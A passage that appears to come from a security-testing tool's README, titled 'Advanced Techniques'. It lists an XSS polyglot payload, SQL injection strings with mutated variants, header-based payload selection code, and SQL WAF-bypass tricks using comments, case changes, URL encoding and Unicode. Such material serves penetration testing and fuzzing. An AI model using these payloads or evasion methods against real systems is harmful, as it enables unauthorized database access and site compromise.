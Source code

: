 ## 🔬 Advanced Techniques

### **1. Polyglot Payloads**

Multi-context payloads that work across different injection points:

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(1)//";alert(1)//";alert(1)//--></SCRIPT>">'><SCRIPT>alert(1)</SCRIPT>
```

### **2. Mutation Algorithms**

Genetic algorithm-based payload evolution:

```python
# Base payload
base = "' OR 1=1 --"

# Generation 1 mutations
mutations_gen1 = [
    "' OR 1=1#",
    "' OR 2=2 --",
    "admin' OR 1=1 --"
]

# Generation 2 mutations  
mutations_gen2 = [
    "admin'/**/OR/**/1=1#",
    "' OR 'a'='a' --",
    "1' OR '1'='1"
]
```

### **3. Context-Aware Adaptation**

Dynamic payload generation based on server responses:

```python
# Server response analysis
if 'mysql' in response.headers.get('x-powered-by', ''):
    payloads.extend(mysql_specific_payloads)
    
if 'application/json' in response.headers.get('content-type', ''):
    payloads.extend(json_injection_payloads)
```

### **4. WAF Bypass Techniques**

Advanced evasion methods for modern security devices:

```sql
-- Comment-based bypass
SELECT/*comment*/password/*comment*/FROM/*comment*/users

-- Case variation
sElEcT * fRoM users

-- Encoding bypass
%53%45%4c%45%43%54 * %46%52%4f%4d users

-- Unicode normalization
SELECT＊FROM①users
```
